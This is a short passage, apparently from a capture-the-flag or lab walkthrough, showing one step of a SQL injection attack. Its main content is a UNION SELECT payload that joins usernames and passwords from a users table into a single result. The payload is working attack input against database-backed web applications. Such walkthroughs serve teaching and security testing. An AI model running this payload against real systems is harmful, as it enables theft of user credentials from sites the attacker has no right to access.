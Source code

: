 <figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

We could try to do the same for the password and go from there but let's directly concat the 2 in one query:

```
abcd'union select 1,concat(username,':',password),3,4,5,6 from users;-- -
```
